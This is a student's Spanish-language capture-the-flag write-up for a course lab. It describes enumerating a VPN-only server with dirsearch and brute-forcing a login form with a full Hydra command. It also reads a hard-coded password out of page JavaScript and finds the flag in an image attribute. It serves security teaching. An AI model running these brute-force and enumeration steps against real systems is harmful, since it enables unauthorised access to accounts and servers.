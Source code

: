 # Writeup P1 Tarea 2

**Nombre**: Valentina Rojas Osorio

**Equipo**: Hack Pals

# Desarrollo 
 _Para la solución de este problema, se está obviando la **instalación** de herramientas vistas durante el curso, sin embargo, se especifica detalladamente cómo utilizarlas en cada paso. También se especifican usos e instalación de herramientas externas (no vistas)._
 
 _Además, se debe estar conectado a la VPN del CEC, para tener acceso al servidor 172.17.69.241_

---

 Comenzamos con un mensaje de la página que nos dice que no tenemos acceso a ella, lo que implica que tenemos que "ingresar" de alguna manera.

1. Procedemos a buscar información sobre directorios a los que podamos acceder en el servidor (directorios con código de respuesta 200) con la herramienta [dirsearch](https://www.kali.org/tools/dirsearch/). Una vez completada la instalación, abrimos una consola en linux y ejecutamos
    ```
    $ dirsearch -u 172.17.69.241:8081
    ```

1. Encontramos los siguientes directorios:
    ```
    200  1KB  /access_log
    200  874B /favicon.ico
    ```
    Descartamos el favicon.ico, por lo tanto vamos al primer directorio.


1. Aqui encontraremos lo que parecen ser request de tipo GET con response code 400, excepto 
    ```
    /mySuperSecretHiddenLogin.php
    ```
     que tiene response code 200 y un nombre muy sospechoso. 

## Formulario 1: /mySuperSecretHiddenLogin.php
---
Al dirigirnos a http://172.17.69.241:8081/mySuperSecretHiddenLogin.php nos encontramos un _form_ que solicita Username y Password.

1. Al escribir cualquier _password_ equivocada, la página nos arroja el mensaje "Error". 

1. Si inspeccionamos la página, en el _form_ vemos que el campo de input de Username tiene _name_ username y _value_ admin, y el input de Password tiene name _password_. 

1. Atacamos con fuerza bruta para obtener la Password con la herramienta [Hydra](https://github.com/vanhauser-thc/thc-hydra), abrimos una consola y ejecutamos

    ```
    hydra -l admin -P /home/kali/Desktop/passwords.txt -u -s 8081 172.17.69.241 http-post-form "/mySuperSecretHiddenLogin.php:username=admin&password=^PASS^:Error"
    ```
* _passwords.txt es un archivo de claves que tenemos en el escritorio de kali_

1. Finalmente, hydra nos arroja las credenciales

    ```
    login: admin password: password1
    ```

## Formulario 2: /password2.php
 ---
Una vez logeados como admin, el servidor nos redirigue a http://172.17.69.241:8081/password2.php

1. Al inspeccionar esta página, tenemos otro formulario y notamos que el botón Enter ejecuta una función al hacer click. Esta función se encuentra en el script de la página y es de la forma
    ```js
    <script>
		function checkSecondPassword() {
			var secondPassword = document.getElementById("secondPassword").value;
			if (secondPassword == 'XGQq8aPtvCDAaxPxuFV4aw2uAVvLt5mjRAmyCaCR4QNQm55D7V') {
                document.location = '/mySuperSecretHiddenHome.php';
                } 
            else { document.location = '/';
			}
		}
    </script>    
    ```
    Esta función nos dice que si la secondPassword es 
    ```
    XGQq8aPtvCDAaxPxuFV4aw2uAVvLt5mjRAmyCaCR4QNQm55D7V
    ```
    entonces nos redirige a /mySuperSecretHiddenHome.php


1. Si ingresamos la secondPassword al formulario y damos click en Enter, el servidor no hace nada, por lo tanto nos vamos a la url http://172.17.69.241:8081//mySuperSecretHiddenHome.php a la "fuerza".

1. La página indica que encontramos la flag, pero los corchetes están vacíos, por lo que nuevamente inspeccionamos la página y encontramos que la Flag está escondida en el atributo _alt_ de la imagen.


# Resultados

La flag de este problema es 

        CC5325{my5up3253c237h1dd3nf149}

##

![secret-login.php](./mySuperSecretHiddenLogin.PNG)
    